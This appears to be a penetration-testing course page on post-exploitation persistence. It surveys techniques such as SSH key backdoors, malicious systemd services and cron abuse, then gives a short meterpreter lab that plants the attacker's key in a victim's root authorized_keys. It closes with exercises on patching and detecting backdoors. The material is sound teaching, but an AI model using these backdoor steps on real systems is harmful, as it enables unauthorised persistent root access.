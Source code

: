 # Maintaining Access

Post-exploitation, an attacker might want to [persist](https://attack.mitre.org/tactics/TA0003/) their presence in the system, even after the vulnerability gets patched. Common techniques include:

- Account manipulation (e.g., modifying SSH `authorized_keys` for an existing SSH service)
- Creating or modifying a system process (e.g., installing a malicious `systemd` service)
- Scheduled tasks (e.g., abusing `cron` jobs for execution of malicious code)

<details>
  <summary>Realistic issues and workarounds</summary>
  <ul>
    <li>Running multiple commands and inspecting files on the compromised host risks detection.
        <ul>
            <li>Interesting files are usually <a href="https://bashupload.com/">exfilterated</a> for analyzing on the host.
            <li>An attacker may also clear command history and clean other artifacts created during the exploitation.</li>
            </li>
        </ul>
    </li>
    <li>An attacker may not always have root access to install a needed service.
        <ul>
            <li>Existing <a href="https://gtfobins.github.io/">binaries</a> may be abused for privilege escalation.</li>
        </ul>
    </li>
    <li>The victim environment may not have the dependencies required to run the backdoor logic.
        <ul>
            <li><a href="https://github.com/andrew-d/static-binaries">Statically-linked</a> binaries are often grabbed (<code>curl/wget</code>), used, then deleted as needed.</li>
        </ul>
    </li>
    <li>The compromised machine may not be the valuable target, it can be a container/VM, or an entrypoint to an internal network of valuable targets.
        <ul>
            <li>Techniques exist for escaping VMs/Containers.</li>
            <li>An attacker may also use a compromised host as a <a href="https://github.com/haad/proxychains">proxy</a> for the traffic generated by their tools.</li>
        </ul>
    </li>

</ul>
</details>
<br>

## Practice

1. Attacker: create an SSH public key (if needed).

    ```shell
    ssh-keygen -t rsa
    ```

2. Victim (through meterpreter): install a backdoor by adding attacker's public key to the victim's `authorized_keys` file (install an `openssh-server` first if needed).

    ```shell
    upload ~/.ssh/id_rsa.pub /root/.ssh/authorized_keys
    ```

3. Attacker: SSH to the victim's machine without needing an exploit.

    ```shell
    ssh root@vuln
    ```

## Exercise 5

1. Finalize your report with practical recommendations (include commands) to patch the security hole.
2. From the defensive perspective, how could one detect and close backdoors?
